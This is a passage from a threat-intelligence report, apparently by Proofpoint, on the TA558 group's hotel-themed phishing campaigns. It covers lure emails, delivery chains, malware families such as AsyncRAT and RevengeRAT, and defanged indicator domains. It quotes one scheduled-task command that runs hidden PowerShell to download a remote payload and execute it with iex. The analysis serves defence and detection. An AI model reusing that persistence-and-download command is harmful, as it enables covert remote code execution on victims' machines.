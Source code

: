 Figure 8: Campaigns using specific threat types over time
For example, this 2022 Spanish language campaign featured URLs leading to container files. Messages purported to be, e.g.:
From: Mauricio Fortunato <contato@155hotel[.]com[.]br>
Subject: Enc: Reserva Familiar
The URL purported to be a legitimate 155 Hotel reservation link that led to an ISO file and an embedded batch file. The execution of the BAT file led to a PowerShell helper script that downloaded a follow-on payload, AsyncRAT.
Similar to earlier campaigns, persistence was achieved via a scheduled task:

schtasks /create /sc MINUTE /mo 1 /tn Turismo /F /tr
"powershell -w h -NoProfile -ExecutionPolicy Bypass -
Command start-sleep -s 20;iwr ""\""hxxps[:]//unimed-
corporated[.]com/tur/turismo[.]jpg""\"" -useB|iex;"

Figure 9: 2022 campaign example chain.
In April 2022 Proofpoint researchers spotted a divergence from the typical email lure. One of the campaigns included a QuickBooks invoice email lure. Additionally, this campaign included the distribution of RevengeRAT which had not been observed in use by TA558 since December 2020. Messages purported to be:
From: Intuit QuickBooks Team <quickbooks@unimed-corporated.com>
Subject: QuickBooks Invoice 1000172347
Attachment: 1000172347.xlsm
SHA256: b57a9f7321216c3410ebcc9d4b09e73a652dee9e750f96b2f6d7d1e39e2923d6
The emails contained Excel attachments with macros that downloaded helper scripts via PowerShell and MSHTA. The execution of helper scripts ultimately led to the installation of RevengeRAT. Proofpoint has not seen this theme since April, and it is unclear why TA558 temporarily pivoted away from reservations themes. 
Malware Use
Since 2018, TA558 has used at least 15 different malware families, sometimes with overlapping command and control (C2) domains. The most frequently observed payloads include Loda, Vjw0rm, AsyncRAT, and Revenge RAT.  

Figure 10: Number of TA558 campaigns by malware type over time
Typically, TA558 uses attacker owned and operated infrastructure. However, Proofpoint has observed TA558 leverage compromised hotel websites to host malware payloads, thus adding legitimacy to its malware delivery and C2 traffic.  
Language Use
Since Proofpoint began tracking TA558 through 2022, over 90% of campaigns were conducted in Portuguese or Spanish, with four percent featuring multiple language lure samples in English, Spanish, or Portuguese.

Figure 11: Campaign totals by language since 2018
Interestingly, the threat actor often switches languages in the same week. Proofpoint researchers have observed this actor send, for example, a campaign in English and the following day another campaign in Portuguese. Individual targeting typically differs based on campaign language.
Notable Campaign Artifacts
In addition to the consistent lure themes, targeting, message content, and malware payloads, Proofpoint researchers observed TA558 using multiple notable patterns in campaign data including the use of certain strings, naming conventions and keywords, domains, etc. For example, the actor appears to repeat the term CDT in email and malware attributes. This may relate to the CDT Travel organization and related travel reservation lure themes. Proofpoint researchers observed TA558 use the CDT term in dozens of campaigns since 2018, in C2 domains, replyto email addresses, payload URLs, scheduled task name, and Microsoft Office document metadata (i.e., Author, Last Saved By), and Microsoft Office macro language.
Throughout many of the 2019 and 2020 campaigns the threat actor used various URLs from the domain sslblindado[.]com to download either helper scripts or malware payloads. Some examples include:
microsofft[.]sslblindado[.]com
passagensv[.]sslblindado[.]com
system11[.]sslblindado[.]com
Like other threat actors, this group sometimes mimics technology service names to appear legitimate. For example, using terms in payload URLs or C2 domain names. Some examples include:
microsofft[.]sslblindado[.]com
firefoxsystem[.]sytes[.]net
googledrives[.]ddns[.]net